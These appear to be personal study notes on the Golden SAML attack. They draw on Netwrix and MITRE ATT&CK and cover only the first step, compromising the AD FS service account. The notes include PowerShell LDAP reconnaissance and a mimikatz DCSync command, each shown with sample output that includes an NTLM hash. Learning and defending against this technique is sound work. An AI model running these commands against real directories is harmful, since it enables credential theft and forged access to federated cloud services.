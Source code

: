 
Sources : 
https://www.netwrix.com/gmsa_exploitation_attack.html
https://attack.mitre.org/techniques/T1606/002/

Similar to [[Golden Tickets]] the difference reside in the thief of the secret use to sign SAML assertions created by AD-FS (use to extend AD identity to clouds apps)

## Steps of Golden SAML

### Compromise the AD-FS service 

Goal is to have authenticated as the AD FS service account
The example below uses a few techniques: [LDAP reconnaissance](https://www.netwrix.com/ldap_reconnaissance_active_directory.html) to discover AD FS, [DCSync](https://www.netwrix.com/privilege_escalation_using_mimikatz_dcsync.html) to export the service account’s hashes, and then [Pass the Hash](https://www.netwrix.com/pass_the_hash_attack_explained.html) (PtH) to gain a session on the AD FS Server as the service account.

```powershell
# LDAP reconnaissance for AD FS / AADC Items
## ADFS Uses a Host SPN on the service account for the ADFS Service Portal. If the portal is known (ADFS/STS/FS etc.) it can be discovered
Get-ADObject -filter { ServicePrincipalName -contains “*adfs*” -or ServicePrincipalName -contains “*STS*” -or ServicePrincipalName -contains “*FS*” }

DistinguishedName                               Name             ObjectClass ObjectGUID
-----------------                                ----              ----------- ----------
CN=ADFS,OU=Servers,DC=domain,DC=local           ADFS             computer   fbf560c9-da5e-42b9-8f80-9c9a37006c9b
CN=MSOL_81f4a7929078,CN=Users,DC=domain,DC=local MSOL_81f4a7929078 user       38348edf-8a4a-400e-83b4-eb88a57b78a7


## ADFS User/Service/computer Accounts
Get-ADObject -filter { samaccountname -like “*adfs*” -or description -like “*adfs*” -or description -like “*aadc*” }

DistinguishedName                                         Name   ObjectClass                     ObjectGUID
-----------------                                         ----    -----------                     ----------
CN=ADFS,OU=Servers,DC=domain,DC=local                     ADFS   computer                       fbf560c9-da5e-42b9…
CN=aadcsvc,CN=Managed Service Accounts,DC=domain,DC=local aadcsvc msDS-GroupManagedServiceAccount f1709f9d-e137-4185.


# Found GMSA Account named adfssvc$
.\mimikatz.exe “lsadump::dcsync /user:adfssvc$”

[DC] 'domain.local' will be the domain
[DC] 'DC.domain.local' will be the DC server
[DC] 'aadcsvc$ ' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN           : DA
--- Output truncated ---
Credentials:
  Hash NTLM: f0f13a15b218cb98d1ada6484e380fe6
--- Output truncated ---
* Primary:Kerberos-Newer-Keys *
    Default Salt : DOMAIN.LOCALDA
    Default Iterations : 4096
    Credentials
```